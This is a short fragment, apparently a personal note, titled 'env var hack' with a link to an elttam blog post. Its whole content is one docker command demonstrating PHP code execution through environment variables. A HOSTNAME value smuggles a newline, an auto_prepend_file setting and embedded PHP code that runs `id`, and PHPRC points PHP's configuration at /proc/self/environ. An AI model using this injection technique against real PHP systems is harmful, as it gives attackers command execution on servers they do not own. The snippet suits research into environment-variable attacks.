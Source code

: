 x
-

[env var hack](https://www.elttam.com/blog/env/)

````sh
docker run -e $'HOSTNAME=1;\nauto_prepend_file=/proc/self/environ\n;<?php die(`id`); ?>' \
  -e 'PHPRC=/proc/self/environ' php:7.3 php /dev/null
````
